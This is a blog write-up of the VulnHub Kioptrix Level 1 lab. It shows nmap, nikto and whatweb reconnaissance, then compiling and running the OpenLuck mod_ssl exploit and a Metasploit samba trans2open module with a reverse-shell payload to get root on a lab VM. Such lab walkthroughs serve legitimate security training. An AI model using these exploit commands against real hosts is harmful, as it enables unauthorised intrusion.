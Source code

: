 ```yaml
---
layout: post
title: "VulnHub - Kioptrix Level 1"
date: 2022-02-04
categories: [Vulnhub, Easy]
tags: [boot2root]
image: ../../assets/img/posts/Kioptrix Level 1/kioptrix.png 

---
```


## Description

This Kioptrix VM Image are easy challenges. The object of the game is to acquire root access via any means possible (except actually hacking the VM server or player). The purpose of these games are to learn the basic tools and techniques in vulnerability assessment and exploitation. There are more ways then one to successfully complete the challenges. 

|**Box**|Kioptrix Level 1|
|:---:|:---:|
|**OS**|Linux|
|**Box Link**| https://www.vulnhub.com/entry/kioptrix-level-1-1,22/ |
|**Creator**|[Kioptrix](https://www.vulnhub.com/author/kioptrix,8/)|

---

We'll start with first discovering the IP address of the box using netdiscover tool,

```bash
sudo netdiscover -r 10.0.2.0/24
```

![netdiscover](../../assets/img/posts/Kioptrix Level 1/netdiscover.png)

Okay, so the IP address of the box is 10.0.2.21.

Now, let's start port scanning with **nmap**,

```bash
sudo nmap -A -T4 -p- -oN nmap_scan 10.0.2.21
```

![nmap1](../../assets/img/posts/Kioptrix Level 1/nmap1.png)
![nmap2](../../assets/img/posts/Kioptrix Level 1/nmap2.png)

there are multiple open ports present. We'll enumerate them individually.

Since we know that this box is running a webserver which host a website, so we'll first see how many technologies are running on website with whatweb tool,

```bash
whatweb http://10.0.2.21
```

![whatweb](../../assets/img/posts/Kioptrix Level 1/whatweb.png)

this is running mod_ssl (exploit) impressive :0. Let's enumerate it more.

let's visit http://10.0.2.21,

![web1](../../assets/img/posts/Kioptrix Level 1/web1.png)

that's a simple apache installation text page.

let's visit https://10.0.2.21 as well,

![web2](../../assets/img/posts/Kioptrix Level 1/web2.png)

we can see that this is a same page which we encountered before on port 80.

Let's run **nikto** tool to scan website for vulnerabilities,

```bash
nikto --host http://10.0.2.21
```

![nikto1](../../assets/img/posts/Kioptrix Level 1/nikto1.png)

there are many things to look for but the thing which takes my attention is this website is vulnerable to **mod_ssl 2.8.4 exploit**.

![nikto2](../../assets/img/posts/Kioptrix Level 1/nikto2.png)

We can take a look at this exploit code on https://www.exploit-db.com/exploits/764 and this exploit's name is OpenFuckV2. This mod_ssl vulnerability allows buffer overflow to gain remote shell.

Let's look at the how this exploit work and download this exploit from github https://github.com/heltonWernik/OpenLuck

![web3](../../assets/img/posts/Kioptrix Level 1/web3.png)

follow the steps in usage image from github to fireup the exploit,

```bash
git clone https://github.com/heltonWernik/OpenLuck.git
cd Openluck
sudo apt-get install libssl-dev
compiling exploit,
gcc -o OpenFuck OpenFuck.c -lcrypto
```

let's see how this exploit works,

```bash
./OpenFuck
```

![openluck](../../assets/img/posts/Kioptrix Level 1/openluck.png)

seems like we've to first we've to provide supported offset of the version running on the box.

we'll use RedHat linux 7.2 version offset 0x6b,

```bash
./OpenFuck 0x6b 10.0.2.21 443 -c 41
```

![openluck2](../../assets/img/posts/Kioptrix Level 1/openluck2.png)

we got ROOT!!!

Note: This exploit might take 2-3 tries to get you a shell, so try hard ;).

## Metasploit Method

Let's fireup the metasploit framework using `msfconsole` and we'll look how to exploit this box.

we'll search for samba exploit modules in msfconsole,

```bash
search linux samba
```

![msf1](../../assets/img/posts/Kioptrix Level 1/msf1.png)

okay, so we got trans2open exploit and we're going to use that to gain a system access.

```bash
use exploit/linux/samba/trans2open
```

![msf2](../../assets/img/posts/Kioptrix Level 1/msf2.png)

we can see that our payload is automatically assigned as generic/shell_reverse_tcp, if not, then set it using `set payload generic/shell_reverse_tcp`.

now type `options` to show list of options we have in this module,

![msf3](../../assets/img/posts/Kioptrix Level 1/msf3.png)

here we'll set RHOSTS to our kioptrix box's IP. To set this ip, type `set rhosts 10.0.2.21` and then fireup the module using `exploit`,

![msf4](../../assets/img/posts/Kioptrix Level 1/msf4.png)
![msf5](../../assets/img/posts/Kioptrix Level 1/msf5.png)

we got system shell!!

**Note: After firing up this exploit, it might take some time get root shell. Have patience and if it doesn't work then try again.**

We saw both methods, i.e. Manual method by using OpenFuckV2 exploit and Automated Method using Metasploit Framework to exploit this box.
